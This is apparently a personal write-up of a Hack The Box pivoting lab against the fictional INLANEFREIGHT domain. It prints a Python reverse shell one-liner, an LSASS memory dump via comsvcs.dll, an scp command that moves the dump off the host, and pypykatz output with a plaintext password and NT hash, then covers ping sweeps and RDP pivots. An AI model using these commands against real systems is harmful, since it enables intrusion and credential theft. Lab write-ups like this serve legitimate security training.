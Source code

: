 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (31) (1) (1).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>

## Scan Host2

**Scan result**

```
Nmap scan report for 172.16.5.35
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 204.43 seconds
```

now we know that RDP is open on this system we can try to use the credentials against the this host.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>pivot-srv01/mlefay</p></figcaption></figure>

We got access to the pivot-srv01/mlefay and as a local Admin.&#x20;

```
PS C:\Windows\system32> Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True' AND Disabled='False'"

AccountType : 512
Caption     : PIVOT-SRV01\Administrator
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-500
FullName    :
Name        : Administrator

AccountType : 512
Caption     : PIVOT-SRV01\apendragon
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1002
FullName    : apendragon
Name        : apendragon

AccountType : 512
Caption     : PIVOT-SRV01\mlefay
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1003
FullName    : mlefay
Name        : mlefay
```

**2nd Interface 172.16.6.35**

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7dab:2573:1024:6c4a%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e041:c210:35fe:c55a%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

To find the users credentials through the lsass filem, we dump the lsass process and scp to the webadmin host using the following command.

```powershell
Get-Process lsass
# get the process lsass was running

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
# dump the lsass

scp -i .\id_rsa C:\lsass.dmp webadmin@172.16.5.15:~/
# transfer the lsass to webadmin
```

Properties -> Security -> Advanced -> Disable inheritance -> Add -> Select a principal -> Enter the object name to select (add windows username) -> (check full control) -> OK -> Apply -> OK

All the above settings is just to set the permission of the id\_rsa file `chmod 0400 id_rsa` 😒

<figure><img src="../../.gitbook/assets/image (50) (1).png" alt=""><figcaption><p>make sure the orders are correct because Windows is trash.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption><p>Transfer file from pivot host to </p></figcaption></figure>

using `pypykatz lsa minidump lsass.dmp` we found the user `vfrank:Imply wet Unmasked!`

```
== LogonSession ==
authentication_id 160373 (27275)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2023-07-02T11:06:10.741078+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 160373
        == MSV ==
                Username: vfrank
                Domain: INLANEFREIGHT
                LM: NA
                NT: 2e16a00be74fa0bf862b4256d0347e83
                SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
                DPAPI: 97ead6d940822b2c57b18885ffcc5fb4
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == Kerberos ==
                Username: vfrank
                Domain: INLANEFREIGHT.LOCAL
                Password: Imply wet Unmasked!
                password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == DPAPI [27275]==
                luid 160373
                key_guid 560f4286-76f2-4f0f-90a9-5135bbc0104f
                masterkey 4fc3adb204f30f6a226f637b66be93811cee121eaed0e4ec2e8bc023d2d38d396e0c4e827aa49c6b1c2a58f6428ca725be027497ad10f8dd386d5926e7bf73b7
                sha1_masterkey a3e3a61d9a74541a56c3a822d5470bedbb2d4fb5
```

I then performed a **ping sweep** on the 172.16.6.X to find another host to pivot to using cmd.

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up
```

and we found the following address

<figure><img src="../../.gitbook/assets/image (75) (1).png" alt=""><figcaption><p>172.16.6.25</p></figcaption></figure>

Since 172.16.6.35 is our address we can ignore that and focus on 172.16.6.25

Now that we know the ipaddress of the target and we have the credentials, next is to try remote desktop connection (we know from the question of hack the box that the target is running windows. becase the flag is located in C:\Flag.txt)

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>And just like that we are in and got the flag.</p></figcaption></figure>

next we found another interface on this machine and seems like we have to perform double pivots. However I'm not sure about the credentials on the Domain Controller.

It was not the case here. I found the flag in the C directory where the DC admin files system was already mounted lol

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
